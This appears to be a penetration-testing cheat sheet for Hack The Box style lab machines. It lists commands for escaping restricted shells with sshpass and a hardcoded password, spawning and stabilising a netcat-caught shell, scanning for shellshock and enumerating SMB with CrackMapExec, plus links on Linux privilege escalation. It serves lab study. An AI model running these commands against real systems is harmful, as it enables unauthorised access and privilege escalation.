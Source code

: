 ### Escape restricted shell with sshpass
`sshpass -p 'P@55W0rd1!2@' ssh mindy@10.10.10.51 -t bash` 

### Spawn shell via Python
`python3 -c 'import pty;pty.spawn("/bin/bash")' `

### Stabilize shell (run the python pty above first)
```
alex@squashed:/var/www/html$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo ; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
``` 

### Misconfig/Vulnerability specific commands 
[VSFTd 2.3.4 exploit](https://0xdf.gitlab.io/2019/07/27/htb-lacasadepapel.html)

[Samba username map script exploit](https://0xdf.gitlab.io/2020/04/07/htb-lame.html#samba-exploit)

### nmap scan for shellshock
`nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/user.sh 10.10.10.56`

### Linux PrivEsc
[GTFOBins for unix binaries for privesc and other bypasses](https://gtfobins.github.io/)

[/etc/shadow and passwd file formats](https://www.cyberciti.biz/faq/understanding-etcshadow-file/#:~:text=The%20%2Fetc%2Fshadow%20is%20a,only%20to%20the%20root%20user.)

[Writable /etc/passwd file - privesc](https://infinitelogins.com/2021/02/24/linux-privilege-escalation-weak-file-permissions-writable-etc-passwd/)

[GTFOBins for privesc Sudo, suid, etc](https://gtfobins.github.io/)

[Linux Privilege Escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation)

[Linux PrivEsc with .Xauthority magic cookie](https://0xdf.gitlab.io/2022/11/21/htb-squashed.html)

[Gotmilk Linux PrivEsc](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

------------------------------------------
# Windows 

### Crackmapexec
https://wiki.porchetta.industries/

`crackmapexec smb 10.10.10.161 -u '' -p ''`

`crackmapexec smb 10.10.10.161 --pass-pol`
